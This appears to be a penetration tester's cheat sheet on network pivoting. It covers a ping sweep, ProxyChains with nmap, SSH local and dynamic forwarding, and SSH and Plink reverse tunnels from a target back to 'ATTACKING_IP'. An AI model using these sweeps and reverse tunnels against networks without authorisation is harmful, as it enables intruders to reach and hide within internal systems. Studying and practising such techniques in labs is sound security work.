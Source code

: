 Ping scan: `for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done`

### ProxyChains:
- `proxychains COMMAND`
- Use /etc/proxychains.conf copy in local directory to set config
	- `[ProxyList]` section and comment out `proxy_dns` before nmap scanning
- TCP only, no pings `nmap -Pn`
- Very slow
### FoxyProxy:
- Use with web browser

### SSH Tunneling: Forward connections
- `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
	- Visit port 8000 on local machine to view port 80 on remote machine `.10` through machine `.5`
	- `-L` port forwards
	- `-f` backgrounds, `-N` tells ssh no commands
### SSH Tunneling: Proxy connection
- `ssh -D 1337 user@172.16.0.5 -fN`
	- Proxy through local port 1337
### SSH Reverse Connection
- Risky: requires connecting back to attacking machine from remote machine
- authorized_keys: `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty PUBKEY`
- Forward port: `ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN`
- Proxy (only newer versions): `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`

### Plink (older version of windows w/o ssh)
- `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`
- Note: convert keyfile to putty format using `puttygen KEYFILE -o OUTPUT_KEY.ppk`

